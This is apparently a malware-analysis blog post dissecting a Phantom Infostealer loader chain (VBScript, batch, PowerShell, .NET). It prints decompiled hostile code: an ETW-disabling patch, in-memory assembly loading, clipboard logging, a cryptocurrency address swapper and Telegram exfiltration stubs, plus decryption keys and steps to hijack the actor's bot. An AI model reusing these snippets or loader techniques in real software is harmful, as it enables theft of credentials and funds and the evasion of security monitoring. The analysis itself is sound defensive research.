## Overview

Analysis of a malicious VBScript file (`LPO_337860.vbs.bin`) acting as a loader for **Phantom Infostealer**. The script employs heavy obfuscation, environmental checks, and persistence mechanisms.

**Sample Information**

| Field | Value |
|-------|-------|
| Filename | `LPO_337860.vbs.bin` |
| MD5 | `074a04eafe704a893655025b80beffb6` |
| File Type | VBScript |
| Threat | Phantom Infostealer Loader |

---

## Stage 0 — VBScript Loader (`LPO_337860.vbs.bin`)

The initial VBScript acts as a **deobfuscation and file-dropping engine** in two steps:

**1. String Assembly & Deobfuscation**

The script uses hundreds of variables (`SiloArea`, `FarmLocation`, etc.) that each evaluate to a single character via `Eval(Chr(<arithmetic>))`. These characters are concatenated to build the objects and file paths needed for the next step.

**2. File System Operation & Payload Delivery**

- Deobfuscated strings create a `Scripting.FileSystemObject`
- Writes the second-stage payload to `C:\Users\Public\GateFacility.bat`
- The batch file copies the original VBS to `%USERPROFILE%\aoc.bat` — the persistence mechanism
- Uses WMI to execute `GateFacility.bat`, kicking off the next stage

**In short:** The VBS decodes itself, writes a batch file that sets up persistence (`aoc.bat`) and runs the main payload, then executes it.





---

## Dynamic Analysis

Static analysis gave us a solid picture. Now let's execute the VBS and observe with Process Monitor.



Three interesting processes emerge:

- **WScript.exe** — executes the VBS
- **PowerShell.exe** — handles deobfuscation, decoding, and launches `cmd.exe`
- **cmd.exe** — creates `.bat` files on the system

---

## Stage 1 — `GateFacility.bat`

This isn't a script — it's a Rube Goldberg machine designed to resist analysis.



### 1. Tactical Persistence

```batch
copy "%pjga%" "%userprofile%\a%JUNKSTRING%oc%JUNKSTRING%.%JUNKSTRING%b%JUNKSTRING%at%JUNKSTRING%"
```

`%pjga%` resolves to the script's own path (`%~d0%~p0%~n0%~x0`), creating a persistence clone at `aoc.bat`. The `%JUNKSTRING%` padding breaks string-based detection signatures.

### 2. The Obfuscation Engine

A pattern repeated hundreds of times:

```batch
set "hrjbf=s"
set "suykw=t"
set "pnvwn=!hrjbf!e!suykw!"   :: resolves to "set"
!pnvwn! "%JUNK%h%JUNK%d%JUNK%q...%JUNK%g=eerdxmSQB2ADEAdgBqAG4AdgB3AFcATw"
```

`!pnvwn!` resolves to `set`. The variable name is assembled from characters between `%JUNK%` markers. The value is the actual data fragment. Every character of the payload is wrapped in unique random junk — this destroys signature matching and builds a custom environment of hundreds of randomly-named variables, each holding a tiny piece of the final payload.





### 3. Execution

After constructing the full payload in environment variable "RAM", the batch file executes a monstrous PowerShell one-liner.

---

## Stage 2 — PowerShell Loader



**Seven-layer deobfuscation chain:**

1. **Layer 1 — Assembled Script:** The batch output is a PowerShell script containing `$payload` — a Base64 blob split into fragments separated by the marker `kopeeerdxm`.
2. **Layer 2 — Marker Removal:** `$clean_payload = $payload.Replace('kopeeerdxm', '')` — stitches fragments back together.
3. **Layer 3 — Base64 Decode:** `[Convert]::FromBase64String($clean_payload)` — transforms to raw compressed binary.
4. **Layer 4 — GZIP Decompression:** `[IO.Compression.GzipStream]` — decompresses the payload.
5. **Layer 5 — In-Memory Execution:** `IEX` / `Invoke-Expression` — the decompressed data is the final malicious PowerShell script, executed directly in memory. Never touches the filesystem.

### Dynamic Extraction

Execute the `.bat` and immediately open **Process Monitor** or **Process Hacker**. The moment `powershell.exe` appears, **suspend** it — this gives a clean snapshot of command-line arguments, loaded scripts, and pending child processes.

> **Note:** The author sprinkles process-kills after each stage. If PowerShell runs free it cleans up and disappears. Suspend, capture, resume, repeat.







Grab the Base64 blob and feed it to **CyberChef** — remember to reverse the encoding logic first.





---

## Stage 2 — Technical Breakdown

A multi-stage file-based PowerShell loader combining environmental keying, steganography, and encryption.

### Bootstrap

```powershell
$banana = "$env:USERPROFILE\aoc.bat"
if (Test-Path $banana) {
    $rawLines = gc $banana | ?{ $_ -like ":::*" }
    $part1 = ($rawLines | ?{ $_ -like ":::1*" } | %{ $_.Substring(4) })
    $part2 = ($rawLines | ?{ $_ -like ":::2*" } | %{ $_.Substring(4) })
    $part3 = ($rawLines | ?{ $_ -like ":::3*" } | %{ $_.Substring(4) })
    $kiwi  = $part1 + $part2 + $part3
    $apple = ($kiwi -replace "[~#@]","" -replace "honztjnlbyrqzwr","")
    if ($apple) {
        try { iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($apple))) } catch {}
    }
}
```

Reads `aoc.bat`, extracts lines prefixed `:::`, concatenates them, strips junk characters and the marker string `honztjnlbyrqzwr`, Base64-decodes, and executes. A PowerShell script hidden inside batch file comments.





### GZip Blob

```powershell
$orange    = 'H4sIAAAAAAAEAJVU21LbMBD9FU3...<snip>...'
$mango     = [Convert]::FromBase64String($orange)
$pineapple = New-Object IO.MemoryStream(,$mango)
iex(New-Object IO.StreamReader(
    New-Object IO.Compression.GZipStream($pineapple, [IO.Compression.CompressionMode]::Decompress)
)).ReadToEnd()
```

Large hardcoded Base64 → GZip-compressed script. When decompressed, reveals the core loader logic.

### Core Loader — AES Decryption & Reflection

```powershell
# Environmental keying
$apnvg = $env:USERNAME
$oacgu = "C:\Users\$apnvg\aoc.bat"

# AES-256-CBC decryption
$aes_var.Key = [System.Convert]::FromBase64String('vaCr+YhSnIbaC2J3vIV59awQ/jO3jeE5N7elhFXP+6c=')
$aes_var.IV  = [System.Convert]::FromBase64String('HPYz0dT6mEVO9DF1SUlE3g==')

# GZip decompress
$rnvqd = New-Object System.IO.Compression.GZipStream($rkhki, [IO.Compression.CompressionMode]::Decompress)

# In-memory .NET assembly execution via Reflection
$exqip = [System.Reflection.Assembly]::Load([byte[]]$param_var)
$pcsyp = $exqip.EntryPoint
$pcsyp.Invoke($null, $param2_var)
```

Final payloads are .NET assemblies loaded directly into memory — no disk writes.

### Python Decryptor for `aoc.bat`

```python
import base64
import gzip
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import sys
import os

def decrypt_aes(encrypted_data):
    key = base64.b64decode('vaCr+YhSnIbaC2J3vIV59awQ/jO3jeE5N7elhFXP+6c=')
    iv  = base64.b64decode('HPYz0dT6mEVO9DF1SUlE3g==')
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return unpad(cipher.decrypt(encrypted_data), AES.block_size)

def decompress_gzip(data):
    return gzip.decompress(data)

def parse_aoc_bat(file_path):
    with open(file_path, 'r', encoding='utf-8', errors='ignore') as f:
        lines = f.readlines()
    for line in lines:
        if line.startswith(':: '):
            return line[3:].strip().split('\\')
    return None

def extract_stage2_payload(file_path):
    with open(file_path, 'r', encoding='utf-8', errors='ignore') as f:
        lines = f.readlines()
    raw_lines = [l.strip() for l in lines if l.startswith(':::')]
    if not raw_lines:
        return None
    part1 = ''.join([l[4:] for l in raw_lines if l.startswith(':::1')])
    part2 = ''.join([l[4:] for l in raw_lines if l.startswith(':::2')])
    part3 = ''.join([l[4:] for l in raw_lines if l.startswith(':::3')])
    cleaned = (part1+part2+part3).replace("~","").replace("#","").replace("@","").replace("honztjnlbyrqzwr","")
    if cleaned:
        try:
            return base64.b64decode(cleaned).decode('utf-16-le')
        except Exception as e:
            print(f"[!] Stage 2 decode error: {e}")
    return None

def main():
    bat_file = sys.argv[1] if len(sys.argv) > 1 else f"C:\\Users\\{os.getenv('USERNAME')}\\aoc.bat"
    print(f"[*] Analyzing: {bat_file}")
    if not os.path.exists(bat_file):
        print(f"[!] File not found: {bat_file}"); return

    print("\n[=== STAGE 2 ===]")
    s2 = extract_stage2_payload(bat_file)
    if s2:
        print(s2)

    print("\n[=== STAGE 3 DECRYPTION ===]")
    parts = parse_aoc_bat(bat_file)
    if parts:
        for i, part in enumerate(parts):
            try:
                decrypted   = decrypt_aes(base64.b64decode(part))
                decompressed = decompress_gzip(decrypted)
                out = f"decrypted_part_{i+1}.bin"
                open(out,'wb').write(decompressed)
                ftype = "PE" if decompressed[:2]==b'MZ' else decompressed[:16].hex()
                print(f"[+] Part {i+1} → {out} ({len(decompressed)} bytes, {ftype})")
            except Exception as e:
                print(f"[!] Part {i+1} failed: {e}")

if __name__ == "__main__":
    main()
```

```bash
python decrypt_aoc.py aoc.bat
```





---

## Static Analysis — capa

`decrypted_part_2.bin` is a .NET executable. Running **capa** reveals its full capability set.





**Key findings:**

| Capability | Significance |
|-----------|--------------|
| `patch Event Tracing for Windows` | Blinds security monitoring by disabling ETW |
| `Reflective Code Loading` | Loads assemblies directly into memory |
| `reference SQL statements` | Targets credential databases |
| `compress data using GZip` | Compresses exfiltrated data before sending |
| `get session integrity level` | Checks privilege level |
| `self_delete` | Removes evidence post-execution |
| `reference anti-VM strings` | VMware, VirtualBox, Xen evasion |
| `persist via Run registry key` | Survives reboots |

---

## dnSpy Analysis — Core Binary



### Main Execution Flow

```csharp
private static void Main(string[] args)
{
    // Phase 1: Go undercover
    IntPtr consoleWindow = GetConsoleWindow();
    ShowWindow(consoleWindow, SW_HIDE);
    Process.GetCurrentProcess().PriorityClass = ProcessPriorityClass.BelowNormal;

    // Phase 2: Patch ETW — blind security monitoring
    IntPtr hModule     = LoadLibrary("ntdll.dll");
    IntPtr procAddress = GetProcAddress(hModule, "EtwEventWrite");
    byte[] patchBytes  = (IntPtr.Size == 8) ? new byte[] { 195 } : new byte[] { 194, 20, 0 };
    VirtualProtect(procAddress, (UIntPtr)patchBytes.Length, PAGE_EXECUTE_READWRITE, out flNewProtect);
    Marshal.Copy(patchBytes, 0, procAddress, patchBytes.Length);

    // Phase 3: Extract and run embedded tools
    string[] resourceNames = Assembly.GetExecutingAssembly().GetManifestResourceNames();
    foreach (string name in resourceNames)
    {
        if ((name.EndsWith(".exe") || name.EndsWith(".bat")) && name != "xxxxxxxxxxxxxxxxxxxxxxxxxxxx.exe")
        {
            byte[] fileData = GetResourceData(name);
            File.WriteAllBytes(name, fileData);
            File.SetAttributes(name, FileAttributes.Hidden | FileAttributes.System);
            new Thread(() => {
                Process.Start(name).WaitForExit();
                File.SetAttributes(name, FileAttributes.Normal);
                File.Delete(name);
            }).Start();
        }
    }

    // Phase 4: Decrypt and execute final payload
    byte[] encryptedPayload = GetResourceData("xxxxxxxxxxxxxxxxxxxxxxxxxxxx.exe");
    byte[] decrypted        = AES_Decrypt(encryptedPayload,
        Convert.FromBase64String("R2aFZRr/mGFhMSEpI2kNPYc48WKRBlRs5A+6ZRSUUaY="),
        Convert.FromBase64String("9c9wj853LIE7TTQUk8uK6w=="));
    byte[] decompressed = GZip_Decompress(decrypted);
    Assembly.Load(decompressed).EntryPoint.Invoke(args);
}
```

**ETW Patch Breakdown:**

```csharp
// Locate EtwEventWrite in ntdll
IntPtr etwFunc = GetProcAddress("ntdll.dll", "EtwEventWrite");
// Mark memory as writable
VirtualProtect(etwFunc, PAGE_EXECUTE_READWRITE);
// Overwrite with RET — function returns immediately, logging disabled
byte[] patch = { 195 }; // RET (x64)
Marshal.Copy(patch, 0, etwFunc, patch.Length);
```

### Decryption Helper

```python
import base64
import gzip
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def decrypt_malware_payload(encrypted_file, output_file):
    AES_KEY = "R2aFZRr/mGFhMSEpI2kNPYc48WKRBlRs5A+6ZRSUUaY="
    AES_IV  = "9c9wj853LIE7TTQUk8uK6w=="

    with open(encrypted_file, 'rb') as f:
        data = f.read()

    key = base64.b64decode(AES_KEY)
    iv  = base64.b64decode(AES_IV)
    decrypted    = unpad(AES.new(key, AES.MODE_CBC, iv).decrypt(data), AES.block_size)
    decompressed = gzip.decompress(decrypted)

    with open(output_file, 'wb') as f:
        f.write(decompressed)

    ftype = "PE" if decompressed[:2]==b'MZ' else decompressed[:16].hex()
    print(f"[+] {len(decompressed)} bytes → {output_file} ({ftype})")
```

```bash
python decrypt_stagewhatever.py xxxxxxxxxxxxxxxxxxxxxxxxxxxx.exe final_payload.bin
```






---

## Final Payload — Capability Analysis (capa)









---

## dnSpy — Final Payload Deep Dive




### `ClipLogger` — Clipboard Monitoring

```csharp
// Background thread — invisible to user
public static void Start()
{
    _clipboardThread = new Thread(ClipboardMonitor);
    _clipboardThread.IsBackground = true;
    _clipboardThread.SetApartmentState(ApartmentState.STA);
    _clipboardThread.Start();
}

// Polls every second
private static void ClipboardMonitor()
{
    while (_isRunning)
    {
        CheckClipboard();
        Thread.Sleep(1000);
    }
}

// Steals changed clipboard content
private static void CheckClipboard()
{
    if (IsClipboardFormatAvailable(1U))
    {
        OpenClipboard(IntPtr.Zero);
        IntPtr data = GetClipboardData(1U);
        string text = Marshal.PtrToStringAnsi(data);
        CloseClipboard();

        if (!string.IsNullOrEmpty(text) && text != _lastClipboardText)
        {
            _currentContent.AppendLine($"--- Clipboard Entry [{DateTime.Now}] ---");
            _currentContent.AppendLine(text);
            _wordCount += text.Split().Length;
            if (_wordCount >= 100) SaveToFile();
        }
    }
}

// Saves with machine-stamped filename
private static void SaveToFile()
{
    string filename = $"{Environment.MachineName}_{DateTime.Now:yyyyMMdd_HHmmss}.txt";
    File.WriteAllText(Path.Combine(Paths.InitWorkDir(), filename), _currentContent.ToString());
    _currentContent.Clear();
    _wordCount = 0;
}
```



### `Clipper` — Cryptocurrency Address Hijacking

```csharp
private void ProcessClipboardContent(string clipboardContent)
{
    foreach (var pattern in RegexPatterns.PatternsList)
    {
        if (pattern.Value.IsMatch(clipboardContent))
        {
            string attackerAddress = Config.ClipperAddresses[pattern.Key];
            if (!clipboardContent.Equals(attackerAddress))
            {
                NativeClipboard.SetText(attackerAddress); // Silently swap to attacker's address
                break;
            }
        }
    }
}
```

Every Bitcoin, Ethereum, Litecoin, BCH, Monero, TRX, and Solana address copied gets silently replaced with the attacker's address.



### `BrowserWallets` — Crypto Wallet Exfiltration

Targets **54 Chrome extensions** and **10 Edge extensions** including MetaMask, Coinbase, Trust Wallet, Phantom, Binance, and more.

```csharp
string savePath = Path.Combine(Paths.InitWorkDir(), "BrowserWallets", "Grabber");
GetChromeWallets(savePath);
GetEdgeWallets(savePath);
```

### `TelegramSendLogs` — Telegram C2 (LOLC2)

Uses **Telegram Bot API** as the C2 channel — legitimate traffic, bypasses network-based detection.

```csharp
// Encrypted bot token — decrypted at runtime
private static string TelegramBotAPI = StringsCrypt.DecryptConfig("ENCRYPTED:BncRbgTGet4L+mKqD8xxx7h8EdEcrI2Pbm5InYO5Ff/I=");

// Three exfiltration methods:
// 1. SendMessageAsync(text)     — stolen text/credentials
// 2. SendMessageInfoAsync()     — system recon data
// 3. SendReportAsync(file)      — wallet dumps, keylog files
```



### Config — Active Feature Set



| Feature | Status |
|---------|--------|
| Telegram C2 | Enabled |
| Keylogger | Enabled |
| Screenshot | Enabled |
| Clipboard hijack | Enabled |
| Chromium browsers | Enabled |
| Gecko (Firefox) | Enabled |
| Outlook | Enabled |
| FoxMail | Enabled |
| FileZilla | Enabled |

**Crypto clipper targets:** BTC, ETH, LTC, BCH, XMR, TRX, SOL (all addresses encrypted in config)

**File grabber targets:** PDF, Word, Excel, PowerPoint, SQLite, wallet files, source code (C#, Python, JS, PHP), images

**Keylogger triggers:** `bank`, `credit`, `paypal`, `bitcoin`, `wallet`, `coinbase`, `telegram`, `discord`, `password`, `card`

### `StringsCrypt` — Config Encryption Engine

AES-256-CBC with PBKDF2-derived key (1000 iterations), hardcoded salt and key bytes embedded in the binary.

```csharp
public static string DecryptConfig(string value)
{
    if (value.StartsWith("ENCRYPTED:"))
        return StringsCrypt.Decrypt(Convert.FromBase64String(value.Replace("ENCRYPTED:", "")));
    return value;
}
```



### Config Decryptor

```csharp
// Hardcoded values extracted from binary
private static readonly byte[] SaltBytes = new byte[] {
    102,51,111,51,75,45,49,49,61,71,45,78,55,86,74,116,
    111,122,79,87,82,114,61,40,116,78,90,66,102,75,43,98,
    83,55,70,121
};
private static readonly byte[] CryptKey = new byte[] {
    59,38,75,70,33,77,33,104,56,94,105,84,58,60,41,97,
    63,126,109,88,101,78,42,126,111,63,103,78,91,118,64,114,
    81,61,66
};

public static string Decrypt(byte[] bytesToBeDecrypted)
{
    using (Aes aes = Aes.Create())
    {
        aes.KeySize = 256; aes.BlockSize = 128; aes.Mode = CipherMode.CBC;
        Rfc2898DeriveBytes pbkdf2 = new Rfc2898DeriveBytes(CryptKey, SaltBytes, 1000);
        aes.Key = pbkdf2.GetBytes(32);
        aes.IV  = pbkdf2.GetBytes(16);
        using (CryptoStream cs = new CryptoStream(memStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
            cs.Write(bytesToBeDecrypted, 0, bytesToBeDecrypted.Length);
        return Encoding.UTF8.GetString(memStream.ToArray());
    }
}
```



---

## OPSEC Fail — Live Telegram Bot

With the bot token and chat ID decrypted, we can verify whether the bot is still active.



**Bot Details:**
- ID: `7738222389`
- Name: Doublebot (`@Doubleboss_bot`)
- Status: **Active**
- Capabilities: Can join groups


The bot accepts new group memberships — a significant OPSEC failure by the threat actor. Using the [any.run TelegramAPI scripts](https://github.com/anyrun/blog-scripts/tree/main/Scripts/TelegramAPI):

1. Create a Telegram channel, run `prepare_bot.py` with the bot token
2. Add the bot to your group — script returns the new chat ID
3. Run `forward_messages.py` with the bot token, threat actor C2 channel ID, and your intelligence channel ID
4. The threat actor's C2 channel is now mirrored to your collection channel

> **Note:** This technique is demonstrated strictly for defensive intelligence gathering and research purposes. Follow applicable laws and organizational policies.





---

## Malware Behavior Summary

### Initial Access
VBScript (`LPO_337860.vbs`) launched by WScript.exe → creates and executes `GateFacility.bat` → PowerShell launches with Base64-encoded command → drops `aoc.bat`.

### Defense Evasion
- AMSI bypass
- VMware/VirtualBox/Xen detection via `Win32_VideoController` WMI query
- Runtime string decryption for all sensitive config values
- PowerShell Reflection (`System.Reflection.Assembly.Load`) — fully fileless final stage
- ETW patching — disables Windows security event logging

### Payload Execution & Injection
- Launches Chrome, Firefox, and Edge with security flags disabled (`--no-sandbox`, `--disable-gpu`, `--mute-audio`)
- PE injection into all three browser processes
- Thread injection and memory writes to foreign process regions

### Data Theft
- Browser credentials (Chrome cookies, Firefox key databases)
- Cryptocurrency wallets (Electrum, ElectronCash, Bytecoin, Jaxx + 60+ browser extensions)
- Clipboard hijacking (text logging + crypto address swapping)
- Global keylogger via application hook
- Screenshots
- Targeted file grabbing (credentials, docs, source code, wallet files)

### C2 Exfiltration
- **Primary:** Telegram Bot API (`7738222389:AAG...`)
- **Chat ID:** `6xxxx20661`

---

## MITRE ATT&CK TTPs

| TTP | Technique |
|-----|-----------|
| T1059.001 | Command and Scripting Interpreter: PowerShell |
| T1059.003 | Command and Scripting Interpreter: Windows Command Shell |
| T1055 | Process Injection |
| T1056.001 | Input Capture: Keylogging |
| T1113 | Screen Capture |
| T1555.003 | Credentials from Password Stores: Web Browsers |
| T1552.001 | Unsecured Credentials: Credentials In Files |
| T1082 | System Information Discovery |
| T1057 | Process Discovery |
| T1041 | Exfiltration Over C2 Channel |



---

Thanks for sticking around till the end. What we've seen here isn't about offense — it's about understanding the enemy's playbook so Blue Teamers can fight smarter, not harder. Stay sharp, stay ethical, and keep hunting.


